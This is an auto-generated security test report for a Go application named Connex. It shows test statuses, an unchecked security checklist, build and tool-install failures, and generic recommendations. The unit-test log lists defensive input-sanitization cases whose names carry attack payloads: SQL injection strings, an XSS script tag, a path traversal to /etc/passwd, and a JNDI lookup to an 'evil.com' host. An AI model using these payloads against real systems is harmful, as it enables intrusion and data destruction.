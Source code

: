 # Comprehensive Security Test Report

**Date**: Thu Jul  3 21:58:45 MDT 2025
**Application**: Connex
**Test Suite**: Security Testing

## Test Summary

### Unit Tests
- **Status**: ✅ PASSED
- **Log File**: test-results/unit-tests.log

### Integration Tests
- **Status**: ❌ FAILED
- **Log File**: test-results/integration-tests.log

### Manual Tests
- **Status**: ❌ FAILED
- **Log File**: test-results/manual-tests.log

### Security Scan
- **Status**: ❌ FAILED
- **Log File**: test-results/security-scan.log

## Security Features Tested

### 1. Authentication & Authorization
- [ ] JWT token validation
- [ ] Password policy enforcement
- [ ] Session management

### 2. Input Validation
- [ ] Email format validation
- [ ] Password complexity requirements
- [ ] XSS protection
- [ ] SQL injection protection

### 3. Security Headers
- [ ] X-Content-Type-Options
- [ ] X-Frame-Options
- [ ] X-XSS-Protection
- [ ] Content-Security-Policy
- [ ] Referrer-Policy
- [ ] Modern security headers

### 4. Rate Limiting
- [ ] IP-based rate limiting
- [ ] Authentication endpoint protection
- [ ] Request throttling

### 5. Error Handling
- [ ] Information leakage prevention
- [ ] Structured error responses
- [ ] No sensitive data in logs

### 6. Security Monitoring
- [ ] Failed login attempt detection
- [ ] Suspicious request detection
- [ ] Security event logging

### 7. CSRF Protection
- [ ] CSRF token validation
- [ ] State-changing request protection

### 8. Request Size Limiting
- [ ] Large request rejection
- [ ] Memory protection

## Test Results

### Unit Test Results
```
connex/pkg/logger.(*Logger).Error
	/Users/darrenwei1/Downloads/connex/pkg/logger/logger.go:119
connex/internal/api/middleware.WriteStructuredError
	/Users/darrenwei1/Downloads/connex/internal/api/middleware/response.go:26
connex/internal/api/middleware.WriteError
	/Users/darrenwei1/Downloads/connex/internal/api/middleware/response.go:20
connex/internal/api/auth.(*Handler).Register
	/Users/darrenwei1/Downloads/connex/internal/api/auth/handler.go:61
connex/tests/security.TestInputSanitization.func1
	/Users/darrenwei1/Downloads/connex/tests/security/security_test.go:306
testing.tRunner
	/usr/local/go/src/testing/testing.go:1792
--- PASS: TestInputSanitization (0.00s)
    --- PASS: TestInputSanitization/malicious_';_DROP_TABLE_users;_-- (0.00s)
    --- PASS: TestInputSanitization/malicious_<script>alert('xss')</script> (0.00s)
    --- PASS: TestInputSanitization/malicious_../../etc/passwd (0.00s)
    --- PASS: TestInputSanitization/malicious_${jndi:ldap://evil.com/exploit} (0.00s)
    --- PASS: TestInputSanitization/malicious_';_INSERT_INTO_users_VALUES_('hacker',_'hacker@evil.com');_-- (0.00s)
PASS
ok  	connex/tests/security	(cached)
```

### Integration Test Results
```
# connex/tests/integration.test
link: duplicated definition of symbol dlopen, from github.com/ebitengine/purego and github.com/ebitengine/purego
FAIL	connex/tests/integration [build failed]
FAIL
```

### Manual Test Results
```
🔒 Starting Manual Security Testing
===================================
Starting comprehensive security testing...
[0;32m[INFO][0m Checking if application is running...
[0;31m[ERROR][0m Application is not running at http://localhost:8080
[0;32m[INFO][0m Please start the application first: make dev-docker
```

### Security Scan Results
```
🔒 Starting Security Scan for Connex Application
================================================
Starting comprehensive security scan...
[0;32m[INFO][0m Checking required tools...
[1;33m[WARNING][0m gosec is not installed. Installing...
go: github.com/securecodewarrior/gosec/v2/cmd/gosec@latest: module github.com/securecodewarrior/gosec/v2/cmd/gosec: git ls-remote -q origin in /Users/darrenwei1/go/pkg/mod/cache/vcs/1437c821db927f024e16bacc195c3d4e329079b4f2b2a7b59aea199de7a97791: exit status 128:
	remote: Repository not found.
	fatal: repository 'https://github.com/securecodewarrior/gosec/' not found
```

## Recommendations

1. **Review Failed Tests**: Address any failed tests immediately
2. **Monitor Logs**: Check application logs for security events
3. **Regular Testing**: Run security tests regularly in CI/CD
4. **Penetration Testing**: Consider professional penetration testing
5. **Security Updates**: Keep dependencies updated

## Next Steps

1. Fix any identified security issues
2. Implement additional security measures if needed
3. Set up automated security testing in CI/CD pipeline
4. Schedule regular security audits

---

**Report Generated**: Thu Jul  3 21:58:45 MDT 2025
**Test Environment**: Darwin MacBook-Air.local 24.4.0 Darwin Kernel Version 24.4.0: Fri Apr 11 18:34:14 PDT 2025; root:xnu-11417.101.15~117/RELEASE_ARM64_T8122 arm64
**Go Version**: go version go1.24.3 darwin/amd64
